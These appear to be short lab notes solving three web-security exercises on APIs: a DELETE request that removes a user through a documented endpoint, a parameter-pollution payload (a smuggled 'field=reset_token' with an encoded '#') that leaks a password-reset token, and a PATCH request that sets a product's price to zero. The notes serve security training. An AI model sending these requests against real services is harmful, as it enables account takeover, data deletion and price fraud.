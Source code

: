 ____

# Exploiting an API endpoint using documentation

```html
DELETE api/user/carlos
```

# Exploiting server-side parameter pollution in a query string

![[Pasted image 20240911045910.png]]

Adding the additional parameter `field` with variable `reset_token` in the POST request, leak the sensitive information to reset password token.

Attempt to truncate the server-side query string using a URL-encoded `#` character: %23

```
POST /forgot-password

csrf=EOaA9KP0jcmyGMZ9SJcknOViH7bSKzS5&username=administrator%26field=reset_token%23
```

# Finding and exploiting an unused API endpoint

OPTIONS /api/products/1/price

Allow: GET, PATCH

PATCH /api/products/1/price

"error":"Only 'application/json' Content-Type is supported"

Add Content-Type: application/json

"error":"'price' parameter missing in body"

```json
{
  "price":   0
}
```

